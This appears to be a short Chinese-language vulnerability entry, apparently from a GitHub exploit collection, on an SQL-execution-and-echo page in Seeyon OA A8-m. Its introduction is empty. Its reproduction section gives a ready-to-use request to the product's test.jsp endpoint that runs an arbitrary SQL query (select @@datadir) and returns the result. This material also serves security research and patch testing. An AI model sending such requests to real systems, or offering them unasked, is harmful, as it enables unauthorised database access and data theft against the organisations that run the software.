 # 致远OA A8-m 存在sql语句页面回显功能

### 一、漏洞简介

### 二、漏洞影响

致远OA A8-m

### 三、复现过程


```bash
http://url/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20@@datadir
```